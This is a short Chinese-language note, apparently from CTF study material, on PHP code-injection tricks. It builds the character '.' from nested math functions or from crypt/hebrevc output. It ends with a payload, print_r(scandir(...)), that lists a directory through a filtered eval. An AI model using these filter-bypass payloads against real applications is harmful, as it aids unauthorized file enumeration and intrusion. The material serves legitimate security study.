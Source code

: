   ![image-20230719173926887](daydayup.assets/image-20230719173926887.png)

- `phpversion()`：返回PHP版本，如`5.5.9`

  `floor(phpversion())`返回 `5`

  `sqrt(floor(phpversion()))`返回`2.2360679774998`

  `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`

  `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`

  `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`

  `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`

  `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`"."`

- `crypt()`：

  `hebrevc(crypt(arg))`可以随机生成一个hash值，第一个字符随机是`$`(大概率) 或者 `"."`(小概率) 然后通过`chr(ord())`只取第一个字符

  ps：`ord()`返回字符串中第一个字符的Ascii值

  `print_r(scandir(chr(ord(hebrevc(crypt(time()))))));//（多刷新几次）`
